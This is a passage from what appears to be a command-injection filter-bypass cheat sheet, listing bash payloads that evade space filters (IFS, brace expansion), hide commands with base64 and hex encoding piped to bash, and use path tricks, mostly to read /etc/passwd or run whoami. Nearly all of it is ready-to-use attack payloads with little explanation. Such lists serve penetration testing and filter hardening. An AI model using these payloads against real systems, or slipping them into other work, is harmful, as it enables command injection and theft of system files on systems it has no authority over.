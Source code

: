 ### Space Bypass

Used when spaces are filtered:

```bash
# IFS variable
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
{cat,/etc/passwd}

# Line feed/Tabs
cat</etc/passwd
cat$'\x20'/etc/passwd

# Brace expansion
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
```

### Environment Variable Bypass

Using environment variables to hide commands:

```bash
# Variable substitution
COMMAND=whoami
$COMMAND

# Base64 encoding
echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
export CMD="Y2F0IC9ldGMvcGFzc3dk";bash<<<$(base64 -d<<<$CMD)

# Hex encoding
bash<<<$(xxd -r -p<<<776863616D69)  # whoami in hex
```

### Path Bypass

Using different paths to execute commands:

```bash
# Absolute paths
/usr/bin/whoami
/bin/cat /etc/passwd

# Path variable manipulation
PATH=/usr/bin;cat /etc/passwd
PATH=$PATH:/usr/bin;whoami

# Binary locations
which ls|xargs /bin/ls
locate whoami|head -n1|xargs
```
